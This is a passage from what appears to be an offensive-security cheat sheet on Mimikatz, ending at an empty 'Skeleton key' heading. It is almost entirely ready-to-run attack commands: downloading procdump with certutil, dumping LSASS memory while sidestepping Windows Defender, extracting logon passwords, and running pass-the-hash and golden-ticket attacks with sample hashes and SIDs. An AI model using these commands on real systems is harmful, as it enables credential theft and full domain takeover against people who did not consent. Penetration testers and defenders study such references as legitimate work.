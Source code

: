 
## Mimikatz - Mini Dump

Dump the lsass process with `procdump`

> Windows Defender is triggered when a memory dump of lsass is operated, quickly leading to the deletion of the dump. Using lsass's process identifier (pid) "bypasses" that.

```powershell
# HTTP method - using the default way
certutil -urlcache -split -f http://live.sysinternals.com/procdump.exe C:\Users\Public\procdump.exe
C:\Users\Public\procdump.exe -accepteula -ma lsass.exe lsass.dmp

# SMB method - using the pid
net use Z: https://live.sysinternals.com
tasklist /fi "imagename eq lsass.exe" # Find lsass's pid
Z:\procdump.exe -accepteula -ma $lsass_pid lsass.dmp
```

Dump the lsass process with `rundll32`

```powershell
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsass_pid C:\temp\lsass.dmp full
```



Then load it inside Mimikatz.

```powershell
mimikatz # sekurlsa::minidump lsass.dmp
Switch to minidump
mimikatz # sekurlsa::logonPasswords
```

## Mimikatz - Pass The Hash

```powershell
mimikatz # sekurlsa::pth /user:SCCM$ /domain:IDENTITY /ntlm:e722dfcd077a2b0bbe154a1b42872f4e /run:powershell
```

## Mimikatz - Golden ticket

```powershell
.\mimikatz kerberos::golden /admin:ADMINACCOUNTNAME /domain:DOMAINFQDN /id:ACCOUNTRID /sid:DOMAINSID /krbtgt:KRBTGTPASSWORDHASH /ptt
```

```powershell
.\mimikatz "kerberos::golden /admin:DarthVader /domain:rd.lab.adsecurity.org /id:9999 /sid:S-1-5-21-135380161-102191138-581311202 /krbtgt:13026055d01f235d67634e109da03321 /startoffset:0 /endin:600 /renewmax:10080 /ptt" exit
```

## Mimikatz - Skeleton key
